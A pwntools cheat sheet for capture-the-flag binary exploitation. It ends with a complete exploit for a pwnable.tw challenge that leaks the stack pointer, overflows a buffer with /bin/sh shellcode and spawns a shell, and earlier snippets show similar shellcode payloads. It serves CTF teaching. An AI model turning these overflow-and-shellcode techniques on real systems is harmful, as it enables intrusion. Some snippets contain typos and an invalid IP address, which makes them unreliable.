 # Binary Exploitation

## [Pwntools](https://github.com/Gallopsled/pwntools)
A grab-bag of tools to make writing exploits for CTFs easy!

### Install
```
apt-get update
apt-get install python2.7 python-pip python-dev git libssl-dev libffi-dev build-essential
pip install --upgrade pip
pip install --upgrade pwntools
```

### Usage
Include in file:
```python
from pwn import *
``` 

#### [Making Connections](http://docs.pwntools.com/en/stable/tubes.html#module-pwnlib.tubes)
##### [Netcat](http://docs.pwntools.com/en/stable/tubes/sockets.html#module-pwnlib.tubes.remote)
``` python
connection = remote(host, port)

# Example:
r = remote('pwn.hsctf.com', 1234)
# Same as 'nc pwn.hsctf.com 1234'
```

##### [SSH](http://docs.pwntools.com/en/stable/tubes/ssh.html#module-pwnlib.tubes.ssh)
```python
session = ssh(username, host, password=passwd)

# Example:
s = ssh('bandit0', 'bandit.labs.overthewire.org', password='bandit0')
# Same as 'ssh bandit@bandit.labs.overthewire.org'
```


#### [Interacting with Processes](http://docs.pwntools.com/en/stable/tubes/processes.html#module-pwnlib.tubes.process)
```python
r = remote('12.123.45.324', 666)
r.recvline()
r.send("test\r\n")
r.interactive()
...
r.close()
```

```python
s = ssh('bandit0', 'bandit.labs.overthewire.org', password='bandit0')

sh = session.process('sh')
sh.sendline('echo Hello, world!')
sh.recvline(timeout=5)
sh.interactive()
...
s.close()
```


#### [Packing Integers](http://docs.pwntools.com/en/stable/util/packing.html#module-pwnlib.util.packing)
```python
win = p32(0xdeadbeef) # Packs 32-bit int, converts to little-endian
# Same as '\xef\xbe\xad\xde'

# Example:
buf = 'A'*20
win = p32(0xdeadbeef) 
payload = buf + win

r.sendline(payload)
r.interactive()
```


#### [Assembly and Disassembly](http://docs.pwntools.com/en/stable/asm.html#module-pwnlib.asm)

```python
asm('mov eax, 0').encodde('hex') # 'b800000000'

disasm('6a0258cd80ebf9'.decode('hex'))
#   0:   6a 02                   push   0x2
#   2:   58                      pop    eax
#   3:   cd 80                   int    0x80
#   5:   eb f9                   jmp    0x0

# Example: 
shellcode = asm('\n'.join([   # Shell code that will run /bin/sh when executed
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80']))

payload = "A"*20  + p32(esp + 20) + shellcode 
r.send(payload)
r.interactive()
```

##### [Shellcode generation - You don't need to write your own shellcode!](http://docs.pwntools.com/en/stable/shellcraft.html#module-pwnlib.shellcraft)


#### [Setting Target Architecture and OS](http://docs.pwntools.com/en/stable/intro.html#setting-the-target-architecture-and-os)
```python
context.arch      = 'i386'
context.os        = 'linux'
context.endian    = 'little'
context.word_size = 32

# or

context(arch='arm', os='linux', endian='big', word_size=32)
```

### Example Program
```python
from pwn import *

def leak_esp(r):
	address_1 = p32(0x08048087)             # mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80; 
	payload = 'A'*20 + address_1
	print r.recvuntil('CTF:')
	r.send(payload)
	esp = u32(r.recv()[:4])
	print "Address of ESP: ", hex(esp)
	return esp

shellcode = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))

if __name__ == "__main__":
    context.arch = 'i386'
    r = remote('chall.pwnable.tw', 10000)
    #gdb.attach(r)
    esp = leak_esp(r)
    payload = "A"*20  + p32(esp + 20) + shellcode 
    r.send(payload)
    r.interactive()
```
